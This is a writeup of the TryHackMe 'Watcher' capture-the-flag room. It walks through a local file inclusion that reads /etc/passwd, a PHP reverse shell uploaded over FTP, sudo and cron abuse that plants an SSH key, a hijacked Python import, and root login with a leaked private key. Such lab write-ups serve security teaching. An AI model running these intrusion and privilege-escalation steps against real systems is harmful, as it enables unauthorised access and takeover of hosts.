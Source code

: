 ```yaml
---
layout: post
title:  "Tryhackme Watcher writeup"
date:   2021-02-22 22:19:00 +0200
categories: tryhackme writeup
---
```


This is a writeup for TryHackMe room [Watcher](https://tryhackme.com/room/watcher).

## flag 1

checking robots.txt:
```
User-agent: *
Allow: /flag_1.txt
Allow: /secret_file_do_not_read.txt
```

## flag 2

There is a LFI inclusion vulnerability http://IP/post.php?post=striped.php where you can enter any file like http://IP/post.php?post=/etc/passwd . Obviously need to check the file mentioned in robots.txt! http://IP/post.php?post=/var/www/html/secret_file_do_not_read.txt

```
Hi Mat, The credentials for the FTP server are below. I've set the files to be saved to /home/ftpuser/ftp/files. Will ---------- __REDACTED__:__REDACTED__ 
```

Login to the server using FTP and get the second flag.

## flag 3

We can a upload a remote shell to the FTP server since file it is allowed and use the LFI above to invoke the code.

http://IP/post.php?post=/home/ftpuser/ftp/files/php-reverse-shell.php

`cat /var/www/html/more_secrets_a9f10a/flag_3.txt`


## flag 4

```
sudo -l
Matching Defaults entries for www-data on watcher:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on watcher:
    (toby) NOPASSWD: ALL
```

So let's get grab the flag:

`sudo -u toby cat /home/toby/flag_4.txt`


## flag 5

Checking cron jobs:

```
*/1 * * * * mat /home/toby/jobs/cow.sh
```
Start by getting a proper terminal as **toby**:
```
sudo -u toby /bin/bash
/usr/bin/python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Get a proper shell as toby in two steps (yeah could have combined these):
```
echo "mkdir /home/mat/.ssh" > cow.sh
```
insert my own SSH key:
```bash
echo "echo ssh-rsa AAAAB...8oCGHj/cAc= kali@kali > /home/mat/.ssh/authorized_keys" > /home/toby/jobs/cow.sh
```

## flag 6

login as mat using SSH.

```
sudo -l
Matching Defaults entries for mat on watcher:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mat may run the following commands on watcher:
    (will) NOPASSWD: /usr/bin/python3 /home/mat/scripts/will_script.py *
```

will_script.py imports cmd.py which we can write to so let's spawn a shell as will. Add the following to the beginning of cmd.py:
```python=
import os
os.system("/bin/bash -p")
```
Run the script:
```
sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py *
```

Grab the flag: `cat /home/will/flag_6.txt`


## flag 7
So, we are now will. Had to check after so many jumps.
```
id
uid=1000(will) gid=1000(will) groups=1000(will),4(adm)
```
What's special about **adm** group?
```
find / -group adm 2>/dev/null
/opt/backups
/opt/backups/key.b64
/var/log/auth.log
/var/log/kern.log
/var/log/syslog
/var/log/apache2
/var/log/apache2/access.log
/var/log/apache2/error.log
/var/log/apache2/other_vhosts_access.log
/var/log/cloud-init.log
/var/log/unattended-upgrades
/var/log/unattended-upgrades/unattended-upgrades-dpkg.log
/var/log/apt/term.log
```
key.b64 is a base64 encoded RSA private key. Check if it can be used to login to the box as root:
```
base64 -d /opt/backups/key.b64  > root_key
chmod og-rwx root_key 
ssh -i root_key root@10.10.78.244
```
BOOM! We are root. Grab the flag from /root.



